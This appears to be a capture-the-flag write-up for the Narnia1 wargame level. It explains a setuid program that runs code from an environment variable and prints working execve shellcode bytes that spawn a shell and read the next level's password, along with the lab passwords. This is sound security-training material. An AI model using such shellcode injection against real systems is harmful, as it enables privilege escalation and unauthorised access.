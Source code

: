 # Narnia1

- Username: narnia1
- Password: efeidiedae

Source code:

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

This code is going to execute whatever code is found in the environment variable
`EGG`. But what kind of code? Well, since `ret` is a pointer to the content of
the variable we can expect it to be machine code. So now we have to find out the
assembler instructions to open for example a shell and put those as bytes in the
`EGG`variable.
Luckily for us some researchers did us for us and submitted these so called
**shellcodes** to an online database on [shell-storm.org](http://shell-storm.org/shellcode/).

The target machine is running a Linux kernel on x86_64 architecture, as we can
see here:

```sh
narnia1@narnia:~$ uname -a
Linux narnia 4.18.12 #1 SMP Tue Oct 16 11:25:23 UTC 2018 x86_64 GNU/Linux
```

But the binary is a 32-bit ELF, so the right architechture is x86:

```sh
narnia1@narnia:~$ file /narnia/narnia1
/narnia/narnia1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=328875c03e74c86e5dddfe88094a577f308ab167, not stripped
```

After trying a bunch of shellcodes, I found [this one](http://shell-storm.org/shellcode/files/shellcode-607.php).
It uses execve() to open a bash shell. Copy the bytes and use `xxd` or `echo -e`
to convert them to binary.

```sh
narnia1@narnia:~$ EGG=$(echo -ne "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8
\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f
\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81") /narnia/narnia1
Trying to execute EGG!
bash-4.4$ whoami
narnia2
bash-4.4$ cat /etc/narnia_pass/narnia2
nairiepecu
```
